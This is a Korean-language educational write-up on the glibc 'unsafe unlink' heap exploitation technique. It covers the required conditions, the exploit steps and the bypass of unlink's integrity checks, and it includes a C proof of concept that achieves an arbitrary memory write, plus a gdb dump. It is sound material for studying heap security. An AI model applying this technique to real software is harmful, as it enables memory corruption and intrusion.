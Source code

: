 # **Unsafe Unlink**

## **Conditions**

* 공격자에 의해 생성된 Heap 영역이 전역 변수에서 관리되어야 함
* 공격자에 의해 크기가 0x80 이상의 Heap 영역을 할당할 수 있어야 함
* 공격자에 의해 1번째 Heap 영역에 Fake Chunk을 저장할 수 있어야 함
* 공격자에 의해 2번째 Heap 영역에 Header를 덮어쓸 수 있어야 함
    * PREV_INUSE가 제거 되어야 한다.
* 공격자에 의해 2번째 Heap 영역을 해제할 수 있어야 함

## **Exploit Plan**

1. 2개의 Heap 영역 할당
    * 할당받은 첫 번째 Heap 영역의 주소는 전역변수에 저장
1. 1번째 Heap 영역에 Fake Chunk(Free) 구조를 저장(fd, bk)
    * prev_size : 0x0
    * size : 0x0
    * fd : Target Address(전역변수 주소) - 0x18
    * bk : Target Address(전역변수 주소) - 0x10
1. 2번쨰 Heap 영역의 Header 값을 변조
    * "prev_size" 설정(Second Chunk - prev_size = Fake Chunk)
    * "PREV_INUSE" flag 해제
1. 2번째 Heap 영역 해제
1. 전역변수 영역에 Fake Chunk의 fd 값이 저장됨
1. 전역변수[3] 영역에 공격자가 접근하려는 주소 값 저장
    * 전역변수를 통해 원하는 영역에 값을 쓸 수 있음

## **Mitigation**

1. P->bk != P || BK->fd != P
    * P->fd->bk, P->bk->fd의 값이 P의 값과 다른지 확인
    * Fake Chunk의 fd, bk 변조를 통한 우회
        * fd에 "fake chunk가 저장된 변수의 주소 - 0x18" 값을 저장
        * bk에 "fake chunk가 저장된 변수의 주소 - 0x10" 값을 저장

1. chunksize(P) != prev_size (next_chunk(P)
    * unlink() 함수에서 P->size와 next chunk->prev_size의 값이 다른지 확인
        * prev_size(0x0), size(0x0)으로 변조하여 우회
    * size 영역의 값이 0x0이기 때문에 next chunk(fake chunk + 0x0)의 주소는 결국 fake chunk의 주소가 된다.

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            \
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);  \
    FD = P->fd;                                    \
    BK = P->bk;                                    \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))           \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    else {                                    \
        FD->bk = BK;                               \
        BK->fd = FD;                               \
        if (!in_smallbin_range (chunksize_nomask (P))                 \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {             \
        if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)          \
        || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
          malloc_printerr (check_action,                      \
                   "corrupted double-linked list (not small)",    \
                   P, AV);                        \
            if (FD->fd_nextsize == NULL) {                     \
                if (P->fd_nextsize == P)                   \
                  FD->fd_nextsize = FD->bk_nextsize = FD;           \
                else {                                \
                    FD->fd_nextsize = P->fd_nextsize;               \
                    FD->bk_nextsize = P->bk_nextsize;               \
                    P->fd_nextsize->bk_nextsize = FD;               \
                    P->bk_nextsize->fd_nextsize = FD;               \
                  }                               \
              } else {                                \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;            \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;            \
              }                                   \
          }                                   \
      }                                       \
}
```

![unsafe_unlink](/Resources/img/unsafe_unlink.jpg)

## **Proof of Concept**

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


uint64_t *chunk0_ptr;

int main()
{
	fprintf(stderr, "Welcome to unsafe unlink 2.0!\n");
	fprintf(stderr, "Tested in Ubuntu 14.04/16.04 64bit.\n");
	fprintf(stderr, "This technique can be used when you have a pointer at a known location to a region you can call unlink on.\n");
	fprintf(stderr, "The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.\n");

	int malloc_size = 0x80; //we want to be big enough not to use fastbins
	int header_size = 2;

	fprintf(stderr, "The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.\n\n");

	chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
	uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
	fprintf(stderr, "The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
	fprintf(stderr, "The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);

	fprintf(stderr, "We create a fake chunk inside chunk0.\n");
	fprintf(stderr, "We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");
	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
	fprintf(stderr, "We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.\n");
	fprintf(stderr, "With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False\n");
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
	fprintf(stderr, "Fake chunk fd: %p\n",(void*) chunk0_ptr[2]);
	fprintf(stderr, "Fake chunk bk: %p\n\n",(void*) chunk0_ptr[3]);

	fprintf(stderr, "We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");
	uint64_t *chunk1_hdr = chunk1_ptr - header_size;
	fprintf(stderr, "We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.\n");
	fprintf(stderr, "It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly\n");
	chunk1_hdr[0] = malloc_size;
	fprintf(stderr, "If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: %p\n",(void*)chunk1_hdr[0]);
	fprintf(stderr, "We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n\n");
	chunk1_hdr[1] &= ~1;

	fprintf(stderr, "Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.\n");
	fprintf(stderr, "You can find the source of the unlink macro at https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344\n\n");
	free(chunk1_ptr);

	fprintf(stderr, "At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.\n");
	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string;

	fprintf(stderr, "chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.\n");
	fprintf(stderr, "Original value: %s\n",victim_string);
	chunk0_ptr[0] = 0x4141414142424242LL;
	fprintf(stderr, "New Value: %s\n",victim_string);
}
```

```
Welcome to unsafe unlink 2.0!
Tested in Ubuntu 14.04/16.04 64bit.
This technique can be used when you have a pointer at a known location to a region you can call unlink on.
The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.
The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.
```

```
gdb-peda$ x/24gx 0x603000
0x603000:	0x0000000000000000	0x0000000000000091 <- chunk 0
0x603010:	0x0000000000000000	0x0000000000000000
0x603020:	0x0000000000000000	0x0000000000000000
0x603030:	0x0000000000000000	0x0000000000000000
0x603040:	0x0000000000000000	0x0000000000000000
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000000000

0x603090:	0x0000000000000000	0x0000000000000091 <- chunk 1
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
0x6030d0:	0x0000000000000000	0x0000000000000000
0x6030e0:	0x0000000000000000	0x0000000000000000
0x6030f0:	0x0000000000000000	0x0000000000000000
0x603100:	0x0000000000000000	0x0000000000000000
0x603110:	0x0000000000000000	0x0000000000000000
```


**References**  
<https://www.lazenca.net/display/TEC/unsafe+unlink>  
<https://github.com/shellphish/how2heap>
